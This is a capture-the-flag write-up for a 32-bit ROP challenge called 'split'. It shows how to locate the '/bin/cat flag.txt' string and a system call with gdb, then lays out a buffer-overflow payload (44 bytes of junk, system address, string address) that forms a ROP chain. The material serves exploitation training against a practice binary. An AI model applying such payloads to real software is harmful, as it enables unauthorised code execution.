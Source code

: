 # split - 32bit

The string we need (`/bin/cat flag.txt`) is present in the binary.

To find its memory location:

Run `gdb` and break at `main` (`b main`).

Then once the breakpoint has hit run `find <STRING>`. This will display all string locations with `<STRING>` in them.

```
gdb-peda$ find /bin/cat

Searching for '/bin/cat' in: None ranges
Found 1 results, display max 1 items:
split32 : 0x804a030 ("/bin/cat flag.txt")
```

We are provided with a function `usefulFunction`:

```
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:	push   ebp
   0x0804864a <+1>:	mov    ebp,esp
   0x0804864c <+3>:	sub    esp,0x8
   0x0804864f <+6>:	sub    esp,0xc
   0x08048652 <+9>:	push   0x8048747
   0x08048657 <+14>:	call   0x8048430 <system@plt>
   0x0804865c <+19>:	add    esp,0x10
   0x0804865f <+22>:	nop
   0x08048660 <+23>:	leave  
   0x08048661 <+24>:	ret    
End of assembler dump.
```

That provides us with a static address for `system` (0x08048657). We now want to use the `/bin/cat flag.txt` as an argument for `system` alongside a dud `exit` address.

Our payload will have:

```
junk            p32(0x90 x 44 bytes)
system addr     p32(0x08048657)
bin_cat addr    p32(0x0804a030)
exit addr       p32(0x90) [JUNK]
```

Running this allows us to create a ROP chain that exploits the program!
